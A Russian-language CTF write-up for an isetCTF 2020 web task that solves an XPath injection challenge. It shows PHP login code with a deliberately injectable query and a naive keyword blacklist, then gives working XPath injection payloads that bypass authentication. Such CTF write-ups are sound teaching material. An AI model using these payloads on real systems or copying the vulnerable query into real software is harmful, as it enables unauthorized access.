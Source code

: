 ## SteamCTF

| Событие | Название | Категория | Сложность |
|:--------|:---------|:----------|----------:|
| final_isetCTF 2020 | SteamCTF | Web | ........ |

### Описание
> Автор: [ @dikidikiday ]
>
> **Записки охранника Игоря:** *день первый*
> 
> Во всей моей профессиональной практике я не находил более ответственного, ленивого,но прилежного сисадмина, чем этот новичок. Он мне сразу не понравился. Ну даже мне понятно, что от рута в консоли не надо работать!! Я вот сижу под своим **Игорь** и всем доволен! Вообще в нашем банке есть особенная система, специально, чтобы не вести таблицу доходов/расходов, но попробуй объясни это новичку...
> В этой системе обращение к элементам **документа**, имеющего древовидную структуру, напоминает взаимодействие с файловой системой **(/)**.
> Всем удобно, никто не жалуется.
> Эту [систему](http://ваш_сайт:1001) создал старый сисадмин Павлик, но его выгнали, из-за этого он ушёл и даже не сказал пароль!!!
> Знаю только, что он фанат Warface. Ээх..поиграть бы..
> Но для начала надо найти пароль, вдруг он его куда-нибудь записал...

### Решение 

Самое сложное и важное -- прочитать условие.
Понимаем, что повествование переключилось, теперь идет не от лица горе-сисадмина, а от лица охранника Игоря. Выделено имя -- на заметку, скорее всего надо будет ломать именно его.
Система, похожая чем-то на БД из прошлых соревнований первого дня.

Ладно, переходим на сайт, пробуем авторизоваться как `admin`:`admin`, на что сайт выкидывает: `Ваш флаг STEAMCTF: flag{4dm1N_is_4n_Inv4LiD_usEr}`.

Можно подумать, что все, вот он флаг, только он почему-то не сдается в чекер, а если присмотреться, можно прочитать `admin is an invalid user`. 

Понятно. Швыряем ботинок в сторону автора таска, надо попробовать что-нибудь другое.

Спойлер! Так же все нижеперечисленные фейкофлаги неверные! Это на случай любителей сканеров `=)`

```
user:user
lol_try_harder!!!

test:test
flag{t3st_is_4n_Inv4LiD_usEr}

admin:admin
flag{4dm1N_is_4n_Inv4LiD_usEr}

root:root
flag{r007_is_4n_Inv4LiD_usEr}

ubuntu:ubuntu
flag{uBUN7u_is_4n_Inv4LiD_usEr}

kali:kali
flag{k4L1_is_4n_Inv4LiD_usEr}

lol:lol
flag{l0l_is_4n_Inv4LiD_usEr}

secret:secret
flag{my_53CR37_U53R_is_4n_Inv4LiD_usEr}

server:server
flag{th15_15_NOT_4_U53R}

flag:flag
flag{th15_15_NOT_4_U53R}
```

Возвращаемся к описанию.

Документ,имеющий древовидную структуру намекает на **XML документ**.

Гуглим.

**XML (eXtensible Markup Language)** – это всем известный язык разметки, с помощью которого создаются XML документы, имеющие древовидную структуру. 

Пример простейшего XML документа:

```
<?xml version="1.0" encoding="UTF-8"?>
<foo>
<bar param="value"/>
</foo>
```

Гуглим еще.

**XPath (XML Path Language)** – это язык, который предназначен для произвольного обращения к частям XML документа.

О! То, что надо!

По аналогии с первым вебом на прошлых соревнованиях можно предположить, что тут тоже инъекция, тем более такая есть, а автор намекает на это.

Гуглим [туц](https://raz0r.name/articles/vvedenie-v-xpath-inekcii/) и [туц](https://xakep.ru/2008/06/24/44160/)

Представим что у нас есть XML база и аутентификация, основанная на ней:

```
<?xml version='1.0' encoding='ISO-8859-1'?> <users>
    <user>
        <id> 1 </id>
        <username> admin </username>
        <password> xp8th! </password>
    </user>

    <user>
        <id> 2 </id>
        <username> test </username>
        <password> test987 </password>
    </user>

    <user>
        <id> 3 </id>
        <username> bigolnerd </username>
        <password> nerdsneedlovetoo
</password>
</user>
</users>
```

Можно сразу было попробовать вставить кавычку и понять, что это была `xpath inj`:
```
Warning: SimpleXMLElement::xpath(): Invalid predicate in /var/www/html/index.php on line 561

Warning: SimpleXMLElement::xpath(): xmlXPathEval: evaluation failed in /var/www/html/index.php on line 561
```

`'1'='1` и аналогичные кавычки не работают, также блочатся `or` и цифры.

Зайдя в исходный код страницы, ищем комментарии по `<!-`, находим ссылку
`<!-- <a href="/index.php/src/">Look_here</a> -->` на исходный код.

Видим, что пользовательский ввод через поля **login** и **password** фильтруется:

```php
$blacklist = Array('or','0', '1', '2', '3', '4', '5', '6', '7', '8', '9');
``` 

Также, наюблюдаем очень странную проверку верности введённых пользователем данных:

```
        if ($_SERVER['REQUEST_METHOD'] === 'POST'){
          $login = $_POST['login'];
          $pass = $_POST['pass'];
          if(contains($pass, $blacklist) or contains($login, $blacklist)){
              die("Простите, тут запрещено хекать!!");
          }
          else{
            $xml = simplexml_load_file('/users.xml');

            $query = "//users/user[login/text()='$login' and password/text()='$pass']";

            $result = $xml->xpath($query);
            if(!$result){
                echo "Попробуй еще раз! Я верю в тебя!";
            }
            else{
                $user_data = $xml->xpath("//users/user[login/text()='$login']")[0];
                $flag = $user_data->flag;
                echo "Ваш флаг STEAMCTF: ".$flag;
            }
          }
        }
```

Видим, что нам нужно провести инъекцию в поле **password** так, чтобы запрос был верным и выдал хотя бы один результат, а в поле **login** ввести необходимого нам пользователя (из описания задания можно понять, что нам необходим **Игорь**).

Учитывая фильтры, простейшие инъекции:
```
'] | //* | /foo[bar='
'] | /* | /foo[bar='
'] | /users/user | /foo[bar='
```

При этом последний вариант можно вставить только в логин.


**Флаг:**

> flag{xp4tH_I5_jU5T_4_w4rM_uP}
